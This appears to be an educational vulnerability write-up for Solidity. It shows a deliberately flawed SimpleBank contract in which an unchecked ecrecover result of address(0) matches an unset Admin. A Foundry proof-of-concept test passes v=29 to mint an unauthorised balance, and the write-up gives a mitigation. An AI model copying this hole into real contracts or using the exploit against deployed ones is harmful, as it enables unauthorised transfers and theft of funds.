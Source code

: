 # ecRecover returns address(0)

**Name:** ecrecover returns address(0)

**Description:** In the SimpleBank contract, the transfer function takes a message hash and a signature (v, r, s values) as inputs. It recovers the signer address and checks if it equals Admin. The vulnerability lies in the fact that the ecrecover function may return a 0x0 address when the signature parameters are invali, If v value isn't 27 or 28. it will return address(0).

**Mitigation:**

Verify that the result from ecrecover isn't 0 or instead use OpenZeppelin’s ECDSA library.

**REF:**

https://twitter.com/1nf0s3cpt/status/1674268926761668608

https://github.com/code-423n4/2021-09-swivel-findings/issues/61

https://github.com/Kaiziron/numen_ctf_2023_writeup/blob/main/wallet.md

**SimpleBank Contract:**

```jsx
contract SimpleBank {
    mapping(address => uint256) private balances;
    address Admin; //default is address(0)

    function getBalance(address _account) public view returns (uint256) {
        return balances[_account];
    }

    function recoverSignerAddress(
        bytes32 _hash,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) private pure returns (address) {
        address recoveredAddress = ecrecover(_hash, _v, _r, _s);
        return recoveredAddress;
    }

    function transfer(
        address _to,
        uint256 _amount,
        bytes32 _hash,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) public {
        require(_to != address(0), "Invalid recipient address");

        address signer = recoverSignerAddress(_hash, _v, _r, _s);
        console.log("signer", signer);
        //Mitigation
        //require(signer != address(0), "Invalid signature");
        require(signer == Admin, "Invalid signature");

        balances[_to] += _amount;
    }
}
```

***\*How to Test:\****

forge test --contracts src/test/***\*ecrecover.sol\**** -vvvv

```jsx
// Function to test a ecRecover vulnerability
    function testecRecover() public {
        // Emits a log with the balance of the current contract before exploitation
        emit log_named_decimal_uint(
            "Before exploiting, my balance",
            SimpleBankContract.getBalance(address(this)),
            18
        );

        // Generates a message hash
        bytes32 _hash = keccak256(
            abi.encodePacked("\\x19Ethereum Signed Message:\\n32")
        );

        // Signs the generated hash using vm.sign function. Here, 1 represents the account index
        // The returned variables r and s are part of the ECDSA signature (Elliptic Curve Digital Signature Algorithm)
        (, bytes32 r, bytes32 s) = vm.sign(1, _hash);

        // Sets the v variable to 29
        // Typically in Ethereum, v is 27 or 28. When v is neither 27 nor 28, 
        // the ecrecover function used for signature validation will return address(0)
        uint8 v = 29;

        // Calls the transfer function of the SimpleBankContract with an incorrect v value
        // If SimpleBankContract does not correctly validate the v value of the signature,
        // this could lead to an unauthorized transfer
        SimpleBankContract.transfer(address(this), 1 ether, _hash, v, r, s);

        // Emits a log with the balance of the current contract after the exploit
        emit log_named_decimal_uint(
            "After exploiting, my balance",
            SimpleBankContract.getBalance(address(this)),
            18
        );
    }
```

**Red box: returned zero address.**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fe8189c2a-67a9-4ddc-8a03-be3b2bdcce6a%2FUntitled.png?table=block&id=5f54d930-33e2-4f0a-87d5-98ce4bcb4a11&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)